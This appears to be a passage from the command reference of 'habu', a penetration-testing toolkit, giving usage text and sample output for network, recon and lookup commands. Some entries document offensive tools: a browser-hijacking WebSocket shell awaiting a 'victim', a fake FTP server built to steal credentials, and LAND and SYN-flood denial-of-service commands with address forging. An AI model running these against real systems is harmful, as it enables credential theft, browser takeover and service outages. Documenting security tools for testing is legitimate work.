      $ habu.http.options -v http://google.com
      {
          "allowed": "GET, HEAD"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.http.tech
--------------

.. code-block::

    Usage: habu.http.tech [OPTIONS] URL
    
      Uses Wappalyzer apps.json database to identify technologies used on a web
      application.
    
      Reference: https://github.com/AliasIO/Wappalyzer
    
      Note: This tool only sends one request. So, it's stealth and not
      suspicious.
    
      $ habu.web.tech https://woocomerce.com
      Google Tag Manager       unknown
      MySQL                    unknown
      Nginx                    unknown
      PHP                      unknown
      Prototype                unknown
      RequireJS                unknown
      WooCommerce              3.8.0
      WordPress                5.2.4
      Yoast SEO                10.0.1
    
    Options:
      --cache / --no-cache
      --format [txt|csv|json]  Output format
      -v                       Verbose output
      --help                   Show this message and exit.
    

habu.interfaces
---------------

.. code-block::

    Usage: habu.interfaces [OPTIONS]
    
      Show the network interfaces available on the system.
    
      Example:
    
      # habu.interfaces
      #  NAME                            MAC                INET             INET6
      0  eth0                            80:fa:5b:4b:f9:18  None             None
      1  lo                              00:00:00:00:00:00  127.0.0.1        ::1
      2  wlan0                           f4:96:34:e5:ae:1b  192.168.0.6      None
      3  vboxnet0                        0a:00:27:00:00:00  192.168.56.1     fe80::800:27ff:fe00:0
    
    Options:
      -j      Output in JSON format
      --help  Show this message and exit.
    

habu.ip
-------

.. code-block::

    Usage: habu.ip [OPTIONS]
    
      Get the public IP address of the connection from https://api.ipify.org.
    
      Example:
    
      $ habu.ip
      80.219.53.185
    
    Options:
      -4, --ipv4  Print your public IPv4 address (default)
      -6, --ipv6  Print your public IPv6 address
      -j, --json  Print the output in JSON format
      --help      Show this message and exit.
    

habu.ip2asn
-----------

.. code-block::

    Usage: habu.ip2asn [OPTIONS] IP
    
      Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.
    
      Reference: https://www.team-cymru.com/IP-ASN-mapping.html
    
      $ habu.ip2asn 8.8.8.8
      {
          "asn": "15169",
          "net": "8.8.8.0/24",
          "cc": "US",
          "rir": "ARIN",
          "asname": "GOOGLE - Google LLC, US",
          "country": "United States"
      }
    
    Options:
      --help  Show this message and exit.
    

habu.ip.geolocation
-------------------

.. code-block::

    Usage: habu.ip.geolocation [OPTIONS] IP_ADDRESS
    
      Get the geolocation of an IP adddress from https://ipapi.co/.
    
      Example:
    
      $ habu.ip.geolocation 8.8.8.8
      {
          "ip": "8.8.8.8",
          "city": "Mountain View",
          ...
          "asn": "AS15169",
          "org": "Google LLC"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.ip.internal
----------------

.. code-block::

    Usage: habu.ip.internal [OPTIONS]
    
      Get the local IP address(es) of the local interfaces.
    
      Example:
    
      $ habu.ip.internal
      {
        "lo": {
          "ipv4": [
            {
              "addr": "127.0.0.1",
              "netmask": "255.0.0.0",
              "peer": "127.0.0.1"
            }
          ],
          "link_layer": [
            {
              "addr": "00:00:00:00:00:00",
              "peer": "00:00:00:00:00:00"
            }
          ],
          "ipv6": [
            {
              "addr": "::1",
              "netmask": "ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff/128"
            }
          ]
        },
      ...
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.isn
--------

.. code-block::

    Usage: habu.isn [OPTIONS] IP
    
      Create TCP connections and print the TCP initial sequence numbers for each
      one.
    
      $ sudo habu.isn -c 5 www.portantier.com
      1962287220
      1800895007
      589617930
      3393793979
      469428558
    
      Note: You can get a graphical representation (needs the matplotlib
      package) using the '-g' option to better understand the randomness.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -c INTEGER  How many packets to send/receive (default: 5)
      -i TEXT     Interface to use
      -g          Graph (requires matplotlib)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.jshell
-----------

.. code-block::

    Usage: habu.jshell [OPTIONS]
    
      Control a web browser through Websockets.
    
      Bind a port (default: 3333) and listen for HTTP connections.
    
      On connection, send a JavaScript code that opens a WebSocket that can be
      used to send commands to the connected browser.
    
      You can write the commands directly in the shell, or use plugins, that are
      simply external JavaScript files.
    
      Using habu.jshell you can completely control a web browser.
    
      Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API
    
      Example:
    
      $ habu.jshell
      >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
      >> HTTP Request received from 192.168.0.15. Sending hookjs
      >> Connection from 192.168.0.15
      $ _sessions
      0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
      $ _info
      {
          "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
          "location": "http://192.168.0.10:3333/",
          "java-enabled": false,
          "platform": "Linux x86_64",
          "app-code-name": "Mozilla",
          "app-name": "Netscape",
          "app-version": "5.0 (X11)",
          "cookie-enabled": true,
          "language": "es-AR",
          "online": true
      }
      $ document.location
      http://192.168.0.10:3333/
    
    Options:
      -v          Verbose
      -i TEXT     IP to listen on
      -p INTEGER  Port to listen on
      --help      Show this message and exit.
    

habu.karma
----------

.. code-block::

    Usage: habu.karma [OPTIONS] HOST
    
      Use the Karma service https://karma.securetia.com to check an IP against
      various Threat Intelligence / Reputation lists.
    
      $ habu.karma www.google.com
      www.google.com -> 64.233.190.99
      [
          "hphosts_fsa",
          "hphosts_psh",
          "hphosts_emd"
      ]
    
      Note: You can use the hostname or the IP of the host to query.
    
    Options:
      --help  Show this message and exit.
    

habu.karma.bulk
---------------

.. code-block::

    Usage: habu.karma.bulk [OPTIONS] [INFILE]
    
      Show which IP addresses are inside blacklists using the Karma online
      service.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
      172.217.162.4   spamhaus_drop,alienvault_spamming
      23.52.213.96    CLEAN
      190.210.43.70   alienvault_malicious
    
    Options:
      --json  JSON output
      --bad   Show only entries in blacklists
      -v      Verbose output
      --help  Show this message and exit.
    

habu.land
---------

.. code-block::

    Usage: habu.land [OPTIONS] IP
    
      This command implements the LAND attack, that sends packets forging the
      source IP address to be the same that the destination IP. Also uses the
      same source and destination port.
    
      The attack is very old, and can be used to make a Denial of Service on old
      systems, like Windows NT 4.0. More information here:
      https://en.wikipedia.org/wiki/LAND
    
      # sudo habu.land 172.16.0.10
      ............
    
      Note: Each dot (.) is a sent packet. You can specify how many packets send
      with the '-c' option. The default is never stop. Also, you can specify the
      destination port, with the '-p' option.
    
    Options:
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -i TEXT     Interface to use
      -v          Verbose
      --help      Show this message and exit.
    

habu.nc
-------

.. code-block::

    Usage: habu.nc [OPTIONS] HOST PORT
    
      Some kind of netcat/ncat replacement.
    
      The execution emulates the feeling of this popular tools.
    
      Example:
    
      $ habu.nc --crlf www.portantier.com 80
      Connected to 45.77.113.133 80
      HEAD / HTTP/1.0
    
      HTTP/1.0 301 Moved Permanently
      Date: Thu, 26 Jul 2018 21:10:51 GMT
      Server: OpenBSD httpd
      Connection: close
      Content-Type: text/html
      Content-Length: 443
      Location: https://www.portantier.com/
    
    Options:
      --family [4|6|46]            IP Address Family
      --ssl                        Enable SSL
      --crlf                       Use CRLF for EOL sequence
      --protocol [tcp|udp]         Layer 4 protocol to use
      --source-ip TEXT             Source IP to use
      --source-port INTEGER RANGE  Source port to use
      --help                       Show this message and exit.
    

habu.nmap.excluded
------------------

.. code-block::

    Usage: habu.nmap.excluded [OPTIONS]
    
      Prints a random port that is not present on nmap-services file so is not
      scanned automatically by nmap.
    
      Useful for services like SSH or RDP, that are continuously scanned on
      their default ports.
    
      Example:
    
      # habu.nmap.excluded
      58567
    
    Options:
      -l INTEGER RANGE  Lowest port to consider
      -h INTEGER RANGE  Highest port to consider
      --help            Show this message and exit.
    

habu.nmap.open
--------------

.. code-block::

    Usage: habu.nmap.open [OPTIONS] SCANFILE
    
      Read an nmap report and print the open ports.
    
      Print the ports that has been resulted open reading the generated nmap
      output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.open portantier.nmap
      22,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.nmap.ports
---------------

.. code-block::

    Usage: habu.nmap.ports [OPTIONS] SCANFILE
    
      Read an nmap report and print the tested ports.
    
      Print the ports that has been tested reading the generated nmap output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.ports portantier.nmap
      21,22,23,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.ping
---------

.. code-block::

    Usage: habu.ping [OPTIONS] IP
    
      The classic ping tool that send ICMP echo requests.
    
      # habu.ping 8.8.8.8
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -t INTEGER  Timeout in seconds (default: 2)
      -w INTEGER  How many seconds between packets (default: 1)
      -v          Verbose
      --help      Show this message and exit.
    

habu.protoscan
--------------

.. code-block::

    Usage: habu.protoscan [OPTIONS] IP
    
      Send IP packets with different protocol field content to guess what layer
      4 protocols are available.
    
      The output shows which protocols doesn't generate a 'protocol-unreachable'
      ICMP response.
    
      Example:
    
      $ sudo python cmd_ipscan.py 45.77.113.133
      1   icmp
      2   igmp
      4   ipencap
      6   tcp
      17  udp
      41  ipv6
      47  gre
      50  esp
      51  ah
      58  ipv6_icmp
      97  etherip
      112 vrrp
      115 l2tp
      132 sctp
      137 mpls_in_ip
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      --all       Probe all protocols (default: Defined in /etc/protocols)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.select
-----------

.. code-block::

    Usage: habu.select [OPTIONS] FIELD
    
      Select a field from a JSON input.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.expand | habu.filter cc eq US | habu.select asset
      8.8.8.7
      8.8.8.8
      8.8.8.9
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --json       JSON output
      --help       Show this message and exit.
    

habu.server.ftp
---------------

.. code-block::

    Usage: habu.server.ftp [OPTIONS]
    
      Basic fake FTP server, whith the only purpose to steal user credentials.
    
      Supports SSL/TLS.
    
      Example:
    
      # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
      Listening on port 21
      Accepted connection from ('192.168.0.27', 56832)
      Credentials collected from 192.168.0.27! fabian 123456
    
    Options:
      -a TEXT          Address to bind (default: all)
      -p INTEGER       Which port to use (default: 21)
      --ssl            Enable SSL/TLS (default: False)
      --ssl-cert TEXT  SSL/TLS Cert file
      --ssl-key TEXT   SSL/TLS Key file
      -v               Verbose
      --help           Show this message and exit.
    

habu.shodan
-----------

.. code-block::

    Usage: habu.shodan [OPTIONS] IP
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 216.58.222.36
      asn                      AS15169
      isp                      Google
      hostnames                eze04s06-in-f4.1e100.net, gru09s17-in-f36.1e100.net
      country_code             US
      region_code              CA
      city                     Mountain View
      org                      Google
      open_ports               tcp/443, tcp/80
    
    Options:
      --cache / --no-cache
      -v                            Verbose output
      --format [txt|csv|json|nmap]  Output format
      --help                        Show this message and exit.
    

habu.shodan.query
-----------------

.. code-block::

    Usage: habu.shodan.query [OPTIONS] QUERY
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 8.8.8.8
      {
          "hostnames": [
              "google-public-dns-a.google.com"
          ],
          "country_code": "US",
          "org": "Google",
          "data": [
              {
                  "isp": "Google",
                  "transport": "udp",
                  "data": "Recursion: enabled",
                  "asn": "AS15169",
                  "port": 53,
                  "hostnames": [
                      "google-public-dns-a.google.com"
                  ]
              }
          ],
          "ports": [
              53
          ]
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.synflood
-------------

.. code-block::

    Usage: habu.synflood [OPTIONS] IP
    
      Launch a lot of TCP connections and keeps them opened.
    
      Some very old systems can suffer a Denial of Service with this.
    
      Reference: https://en.wikipedia.org/wiki/SYN_flood
    
      Example:
    
      # sudo habu.synflood 172.16.0.10
      .................
    
      Each dot is a packet sent.
    
      You can use the options '-2' and '-3' to forge the layer 2/3 addresses.
    
      If you use them, each connection will be sent from a random layer2 (MAC)
      and/or layer3 (IP) address.
    
      You can choose the number of connections to create with the option '-c'.
      The default is never stop creating connections.
    
      Note: If you send the packets from your real IP address and you want to
      keep the connections half-open, you need to setup for firewall to don't
      send the RST packets.
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -2          Forge layer2/MAC address (default: No)
      -3          Forge layer3/IP address (default: No)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpflags
-------------

.. code-block::

    Usage: habu.tcpflags [OPTIONS] IP
    
      Send TCP packets with different flags and tell what responses receives.
    
      It can be used to analyze how the different TCP/IP stack implementations
      and configurations responds to packet with various flag combinations.
    
      Example:
    
      # habu.tcpflags www.portantier.com
      S  -> SA
      FS -> SA
      FA -> R
      SA -> R
    
      By default, the command sends all possible flag combinations. You can
      specify which flags must ever be present (reducing the quantity of
      possible combinations), with the option '-f'.
    
      Also, you can specify which flags you want to be present on the response
      packets to show, with the option '-r'.
    
      With the next command, you see all the possible combinations that have the
      FIN (F) flag set and generates a response that contains the RST (R) flag.
    
      Example:
    
      # habu.tcpflags -f F -r R www.portantier.com
      FPA  -> R
      FSPA -> R
      FAU  -> R
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
      -r TEXT     Filter by response flags (default: show all responses)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpscan
------------

.. code-block::

    Usage: habu.tcpscan [OPTIONS] IP
    
      TCP Port Scanner.
    
      Print the ports that generated a response with the SYN flag or (if show
      use -a) all the ports that generated a response.
    
      It's really basic compared with nmap, but who is comparing?
    
      Example:
    
      # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
      22 S -> SA
      80 S -> SA
      443 S -> SA
    
    Options:
      -p TEXT     Ports to use (default: 80) example: 20-23,80,135
      -i TEXT     Interface to use
      -f TEXT     Flags to use (default: S)
      -s TEXT     Time between probes (default: send all together)
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      -a          Show all responses (default: Only containing SYN flag)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.traceroute
---------------

.. code-block::

    Usage: habu.traceroute [OPTIONS] IP
    
      TCP traceroute.
    
      Identify the path to a destination getting the ttl-zero-during-transit
      messages.
    
      Note: On the internet, you can have various valid paths to a device.
    
      Example:
    
      # habu.traceroute 45.77.113.133
      IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      .
      IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      .
      IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding
    
      Note: It's better if you use a port that is open on the remote system.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -i TEXT     Interface to use
      --help      Show this message and exit.
    

habu.usercheck
--------------

.. code-block::

    Usage: habu.usercheck [OPTIONS] USERNAME
    
      Check if the given username exists on various social networks and other
      popular sites.
    
      $ habu.usercheck portantier
      {
          "aboutme": "https://about.me/portantier",
          "disqus": "https://disqus.com/by/portantier/",
          "github": "https://github.com/portantier/",
          "ifttt": "https://ifttt.com/p/portantier",
          "lastfm": "https://www.last.fm/user/portantier",
          "medium": "https://medium.com/@portantier",
          "pastebin": "https://pastebin.com/u/portantier",
          "pinterest": "https://in.pinterest.com/portantier/",
          "twitter": "https://twitter.com/portantier",
          "vimeo": "https://vimeo.com/portantier"
      }
    
    Options:
      -c      Disable cache
      -v      Verbose output
      -w      Open each valid url in a webbrowser
      --help  Show this message and exit.
    

habu.version
------------

.. code-block::

    Usage: habu.version [OPTIONS]
    
    Options:
      --help  Show this message and exit.
    

habu.vhosts
-----------

.. code-block::

    Usage: habu.vhosts [OPTIONS] HOST
    
      Use Bing to query the websites hosted on the same IP address.
    
      $ habu.vhosts www.telefonica.com
      www.telefonica.com -> 212.170.36.79
      [
          'www.telefonica.es',
          'universitas.telefonica.com',
          'www.telefonica.com',
      ]
    
    Options:
      -c          Disable cache
      -p INTEGER  Pages count (Default: 10)
      -f INTEGER  First result to get (Default: 1)
      --help      Show this message and exit.
    

habu.virustotal
---------------

.. code-block::

    Usage: habu.virustotal [OPTIONS] INPUT
    
      Send a file to VirusTotal https://www.virustotal.com/ and print the report
      in JSON format.
    
      Note: Before send a file, will check if the file has been analyzed before
      (sending the sha256 of the file), if a report exists, no submission will
      be made, and you will see the last report.
    
      $ habu.virustotal meterpreter.exe
      Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
      Sending file for analysis
      Waiting/retrieving the report...
      {
          "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
          "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
          "positives": 49,
          "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "response_code": 1,
          "scan_date": "2018-05-20 21:11:57",
          "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
          "scans": {
              "ALYac": {
                  "detected": true,
                  "result": "Trojan.CryptZ.Gen",
                  "update": "20180520",
                  "version": "1.1.1.5"
              },
              ... The other scanners ...
          },
          "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
          "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "total": 67,
          "verbose_msg": "Scan finished, information embedded"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.web.report
---------------

.. code-block::

    Usage: habu.web.report [OPTIONS] [INPUT_FILE]
    
      Makes a report that includes HTTP headers of websites.
    
      Optionally, uses Firefox or Chromium to take a screenshot of the websites.
    
      The expected format is one url per line.
    
      Creates a directory called 'report' with the content inside.
    
      $ echo https://www.portantier.com | habu.web.report
    
    Options:
      -v                             Verbose output
      -s                             Take a screenshot for each website
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      --help                         Show this message and exit.
    

habu.web.screenshot
-------------------

.. code-block::

    Usage: habu.web.screenshot [OPTIONS] URL
    
      Uses Firefox or Chromium to take a screenshot of the website.
    
      $ habu.web.screenshot https://www.portantier.com
    
    Options:
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      -o TEXT                        Output file. (default: screenshot.png)
      --help                         Show this message and exit.
    

habu.whois.domain
-----------------

.. code-block::

    Usage: habu.whois.domain [OPTIONS] DOMAIN
    
      Simple whois client to check domain names.
    
      Example:
    
      $ habu.whois.domain google.com
      registrar                MarkMonitor, Inc.
      whois_server             whois.markmonitor.com
      creation_date            1997-09-15 04:00:00
      expiration_date          2028-09-14 04:00:00
      name_servers             ns1.google.com, ns2.google.com, ns3.google.com, ns4.google.com
      emails                   abusecomplaints@markmonitor.com, whoisrequest@markmonitor.com
      dnssec                   unsigned
      org                      Google LLC
      country                  US
      state                    CA
    
    Options:
      --json  Print the output in JSON format
      --csv   Print the output in CSV format
      --help  Show this message and exit.
    

habu.whois.ip
-------------

.. code-block::

    Usage: habu.whois.ip [OPTIONS] IP
    
      Simple whois client to check IP addresses (IPv4 and IPv6).
    
      Example:
    
      $ habu.whois.ip 8.8.4.4
      asn                      15169
      asn_registry             arin
      asn_cidr                 8.8.4.0/24
      asn_country_code         US
      asn_description          GOOGLE - Google LLC, US
      asn_date                 1992-12-01
    
    Options:
      --json  Print the output in JSON format
      --csv   Print the output in CSV format
      --help  Show this message and exit.
    

habu.xor
--------

.. code-block::

    Usage: habu.xor [OPTIONS]
    
      XOR cipher.
    
      Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
      algorithms like AES. You can use habu.fernet for that.
    
      Example:
    
      $ habu.xor -k mysecretkey -i /bin/ls > xored
      $ habu.xor -k mysecretkey -i xored > uxored
      $ sha1sum /bin/ls uxored
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored
    
    Options:
      -k TEXT      Encryption key
      -i FILENAME  Input file (default: stdin)
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

